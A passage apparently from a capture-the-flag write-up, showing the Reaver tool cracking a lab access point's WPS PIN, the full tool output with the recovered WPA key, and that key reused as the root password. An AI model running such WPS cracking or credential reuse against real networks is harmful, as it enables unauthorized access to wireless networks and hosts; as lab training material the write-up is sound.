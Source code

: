 I need the name of the name of the monitor-mode interface and the BSSID of the
target AP. The example at the bottom, `reaver -i wlan0mon -b 00:90:4C:C1:AC:21
-vv` shows the BSSID looks like a MAC address, and in fact, [it
is](https://en.wikipedia.org/wiki/Service_set_\(802.11_network\)).

#### Run Reaver

The target AP is `wlan0`, which has a MAC from the `iw` command above of
`02:00:00:00:00:00`. The monitor-mode interface is `mon0`. Most `reaver`
tutorials show using the `wash` command to get the BSSID/MAC. This doesn’t
work here, and I’ll look at that in Beyond Root.

I’ll use those to run `reaver`:

    
    
    netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv
    
    Reaver v1.6.5 WiFi Protected Setup Attack Tool
    Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
    
    [+] Waiting for beacon from 02:00:00:00:00:00
    [+] Switching mon0 to channel 1
    [+] Received beacon from 02:00:00:00:00:00
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [!] Found packet with bad FCS, skipping...
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received M3 message
    [+] Sending M4 message
    [+] Received M5 message
    [+] Sending M6 message
    [+] Received M7 message
    [+] Sending WSC NACK
    [+] Sending WSC NACK
    [+] Pin cracked in 2 seconds
    [+] WPS PIN: '12345670'
    [+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
    [+] AP SSID: 'OpenWrt'
    [+] Nothing done, nothing to save.
    

Very quickly it is able to crack the WPA password (or pre-shared key (PSK))
for the wireless network.

### su / SSH

This password works as the password for root on the box, either with `su` in
an existing session:
